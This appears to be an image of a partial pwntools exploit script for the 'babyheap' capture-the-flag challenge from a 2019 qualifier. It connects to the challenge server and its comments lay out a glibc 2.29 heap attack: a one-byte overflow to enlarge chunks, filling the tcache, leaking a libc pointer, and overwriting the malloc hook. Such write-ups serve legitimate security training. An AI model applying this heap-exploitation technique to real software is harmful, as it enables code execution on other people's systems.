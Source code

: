 ```python
    first_null_byte_index = packed_address.index("\x00")
    return packed_address[:first_null_byte_index]


def main():
    pwn.context.log_level = "debug"

    elf = pwn.ELF("./babyheap")
    #libc = pwn.ELF("/usr/lib/libc.so.6")
    #pwn.log.warning("YOU'RE STILL USING YOUR OWN LIBC!")
    libc = pwn.ELF("./libc.so")
    preload_env = {"LD_PRELOAD": "./libc.so"}
    if pwn.args.GDB:
        challenge = pwn.process(elf.path, env = preload_env)
        #challenge = pwn.process(elf.path)

        # Breakpoints:
        # 0x128e : (size-1) < 0x178 check in malloc
        # 0x13c6 : malloc_command return
        # 0x13e3 : Near the start of free
        # 0x11c5 : read_long
        # 0x1207 : strtol in read_long
        # 0x140c : memset call in free
        debugger = pwn.gdb.attach(challenge, gdbscript="""
            c
        """)
    elif pwn.args.REMOTE:
        challenge = pwn.remote("babyheap.quals2019.oooverflow.io", 5000)
    else:
        challenge = pwn.process(elf.path, env = preload_env)
        #challenge = pwn.process(elf.path)


    # The basic exploit primitive for this challenge is to use the one byte overflow to overwrite the size field
    # of a chunk, such that when we free it we can malloc it at a larger size, allowing us to overwrite even more
    # chunk metadata. We can use this technique for both leaking a libc pointer and overwriting the malloc hook.
    #
    # The binary let's us allocate at two sizes: 0xf8 and 0x178. So we'll need to change the size of an 0xf8
    # chunk to 0x178.
    #
    # The libc used for the challenge has a one gadget, for which we'll need to leak a libc pointer before we
    # can use. Chunks in the unsorted bin are doubly circularly linked and initially, the head of the unsorted
    # bin points into the main arena, which is inside libc. If we free a chunk into the unsorted bin, a main
    # arena address will be written into that chunks metadata. Using our chunk size expansion primitive, we can
    # overflow right up to the edge of this address. Then, when we show the now larger chunk, the main arena
    # address will also be printed.

    # As this is libc 2.29, we need to be aware of tcache. Before we can free into the unsorted bin, we have to
    # fill up the tcache bins first. There's only 7 of them, so it's easy to fill them up. We should end up with
    # a few chunks in the unsorted bin.
    for i in range(10):
        malloc(challenge, 0xf8, pwn.cyclic(0x20))
```